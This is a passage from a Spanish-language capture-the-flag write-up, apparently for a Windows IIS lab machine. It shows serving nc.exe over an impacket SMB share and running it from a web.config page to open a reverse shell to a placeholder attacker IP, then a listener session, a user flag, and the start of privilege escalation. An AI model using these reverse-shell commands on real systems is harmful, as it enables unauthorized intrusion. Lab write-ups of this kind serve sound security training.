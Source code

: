 Una vez copiado nuestro binario de `netcat` vamos abrirnos el servidor de `SMB`:

```shell
impacket-smbserver -smb2support kali .
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Ahora desde la pagina de `web.config` ejecutaremos lo siguiente:

```powershell
\\<IP_ATTACKER>\kali\nc.exe -e cmd <IP_ATTACKER> <PORT>
```

Con esto lo que haremos sera conectarnos a nuestro servidor de `SMB` para ejecutar el binario `nc.exe` y seguidamente estamos estableciendo una conexion a dicho `puerto` e `IP`.

Antes de enviarlo nos tendremos que poner a la escucha de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos ese `payload` en el `web.config` y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.28.5] from (UNKNOWN) [192.168.28.4] 49160
Microsoft Windows [Versi�n 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.

c:\windows\system32\inetsrv> whoami
win-4qu3qnhnk7e\info
```

Veremos que ha funcionado por lo que leeremos la `flag` del usuario.

> user.txt

```
uigsg5sdfdfbv5b6sad98vcdf
```

## Escalate Privileges

Vamos a ver que privilegios tenemos:

```powershell
whoami /priv
```
